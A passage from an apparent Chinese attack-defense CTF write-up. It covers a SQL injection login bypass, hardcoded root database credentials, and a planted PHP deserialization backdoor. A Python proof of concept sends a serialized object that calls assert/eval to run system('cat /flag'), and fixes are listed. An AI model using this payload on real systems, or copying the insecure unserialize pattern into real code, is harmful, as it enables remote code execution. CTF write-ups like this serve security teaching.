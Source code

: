 可用万能密码直接登录,也可以直接使用sqlmap.

`sqlhelper.php`目录下可以看到配置文件,

```
private static $host="127.0.0.1";
private static $user="root";
private static $pwd="root";
private static $db="mail";
```

数据库dba是root权限,有可能被利用来提权或读文件.

因为找到了更容易利用的点,忘了这个sql注入,所以并没有用上这个点.

修复方案:

转义或过滤单引号

### 反序列化

位于`sqlhelper.php`文件

```php
if (isset($_POST['un']) && isset($_GET['x'])){
class A{
    public $name;
    public $male;
    
    function __destruct(){
        $a = $this->name;
        $a($this->male);
    }
}

unserialize($_POST['un']);
}
```

poc如下:

```python
import requests,re
#url = "http://39.100.119.37:1%s80/sqlhelper.php?x=system('cat+/flag');"
def poc(url):
    data = {"un":'O:1:"A":2:{s:4:"name";s:6:"assert";s:4:"male";s:16:"eval($_GET["x"])";}'}
    flag = requests.post(url,data=data).text
    flag = re.compile('flag{.+?}').findall(flag)[0]
    return flag
```

get请求:

虽然我们很早就发现了这个点,但是没有在第一时间写出payload,靠着不知道拿队大佬打过来的流量,实现的反打.

修复方案:

删除`unserialize($_POST['un']);`即可
